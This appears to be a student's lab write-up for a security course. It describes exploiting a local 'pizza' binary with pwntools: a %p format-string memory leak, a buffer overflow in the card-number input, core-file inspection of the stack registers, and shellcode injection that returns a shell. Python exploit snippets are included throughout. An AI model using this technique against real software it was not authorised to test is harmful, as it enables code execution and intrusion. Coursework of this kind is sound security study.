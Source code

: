 # Control Flow Violation

This week was about using pwntools to insert a shell into a victim process. This task consisted of a couple of steps. First, we need to find a memory leak to learn where our program runs. We then need to identify a buffer that is not properly managed to write to the stack. Finally, we need to determine where to write to ret and input our shellcode.

### Step 1: find vulnerabilities

The first task was to run our victim code and identify the key vulnerabilities. 

#### The memory leak

In order to find a memory leak we had to identify potential weak points in the code. For example, our victim code pizza when ran appears to step through a pizza ordering process.
It requests a name the number of pizzas and the card number.

To test these features we gave each of them potentially breaking tests. In this case, I gave the name a large amount of A's as the name to see if memory control was properly set up.
In this case, it was found to not be.


![image](https://user-images.githubusercontent.com/44854053/235506419-a2dd782c-e779-412c-ab82-475fad098dfa.png)

In this, we can also see that it segment faults post a print statement. In this case, I assumed based on teachers' instructions that this might be printf.
Assuming that this is printf if it is not properly protected we can get more data from it. By sending a valid-looking name followed by ```%p %p ... ``` we can ask the program to
print pointers. This will allow us to see farther in the stack and see memory addresses or a memory leak. From here it was trial and error to see how many pointers we needed to
see an address that was most likely on the stack. We could compare this to adresses generated in the core file after we force segmentation faults. In order to validate at which point we access the stack.


This leads to our first part of the code which uses the ```%p``` to find the memory address.


```py

input1 = b"Cantinflas %p %p %p %p %p %p %p"

victim = process("./pizza")

#memory leak
print(str(victim.recvline(), "latin-1"))
victim.sendline(input1)
leak = str(victim.recvline(), "latin-1").split()[-1]
print(leak)
leak_int = int(leak,16)

```

#### The second un-secured buffer

Finding the memory leak was important because it allows us to locate the potential range of our attack vector. Where we can insert the shellcode and its address. But perhaps equally as important is finding a second buffer that is also unsecured such that we can overflow back to the return pointers.

This meant returning to our victim process and seeing at what further points in the program it could break. The first potential point was the number of pizzas however even though there was no proper type casting/input validation it seemed unlikely to contain what we need.


![image](https://user-images.githubusercontent.com/44854053/235508426-c79d969f-698d-4e34-9882-cd82a101a23b.png)


The next place was the credit card number request.  I used a similar method to before to check for a potential overflow spot and it worked. 

![image](https://user-images.githubusercontent.com/44854053/235508731-578d7e03-85f6-4195-9b29-91a7e51d90f9.png)


### Step 2: Identifying where to write 

From step 1 we have Identified both of the needed vulnerabilities. The next step is to use these vulnerabilities as well as core files to write our shellcode and a return pointer to it. 

#### Identifying where to write. 

From there we forced segmentation faults to create core files. We do this because we want to validate the memory address of where the program is running as well as the stack locations of the RSP RIP and RBP.

![image](https://user-images.githubusercontent.com/44854053/235513424-9528fd54-605e-4eea-8959-b7b8aa61a329.png)

we get this information by slightly overwriting the buffer as well as generating the core file by using this code segment

```py 

#generate a core file to check key value
core = victim.corefile
rsp = core.rsp
rbp = core.rbp

rip = core.rip
#read at rsp 8 bytes,then at +8 rsp then at +8 that
topostack = core.read(rsp,8)
topostack_1 = core.read(rsp+8,8)
topostack_2 = core.read(rsp+16,8)

#gettin the memory adresses
print(f"rsp: {hex(rsp)}")
print(f"rbp: {hex(rbp)}")
print(f"rip: {hex(rip)}")


print(f"Top of stack contains:{hex(int.from_bytes(topostack,'little'))}")
print(f"Top of stack +1 contains:{hex(int.from_bytes(topostack_1,'little'))}")
print(f"Top of stack +2 contains:{hex(int.from_bytes(topostack_2,'little'))}")
print(f"I think the shellcode is at:{hex(shellcodeplace)}")

```

From the core file, I fine-tuned the number of bytes until we could see the shellcode near where we wanted it.

### Completing the injection

From there it was a matter of generating tests and potential sizes of buffer overflow to write. This included predicting where our overwritten RSP would point to the shellcode.

![image](https://user-images.githubusercontent.com/44854053/235514687-caa97db4-3da9-49b8-95d9-b1a4bb90f137.png)

By trial and error, we could see that the address generated from our memory leak tended to be hex 20 from our predicted return pointer. 
From there we could adjust our memory pointer and then inject the shellcode and the proper return address. We then use pwntools interactive mode to keep the shell open. 

```py
#by looking at our prints we can see shell at top of stack is +10 
#from our memory leak we want to put this in rip for the return
shellcodeplace = leak_int + 0x20

#the buffer overflow
#we need between 130 & 150 bytes
input2 =  b"A"*128 + b"ZZZZZZZZ"+ p64(shellcodeplace) + shellcode 
victim.sendline(input2)

print(str(victim.recvline(), "latin-1"))

#victim.sendline(payload)
victim.interactive()

```
I then tested the completed injection program by running the code multiple times.

![image](https://user-images.githubusercontent.com/44854053/235515385-c305f384-e6fd-4d39-9c83-4f5466175183.png)


![image](https://user-images.githubusercontent.com/44854053/235515318-a3df19bc-ad3f-4b18-b9f5-99808b7e6d9b.png)

## The completed program ![code](./controlflowviolation/inject.py)
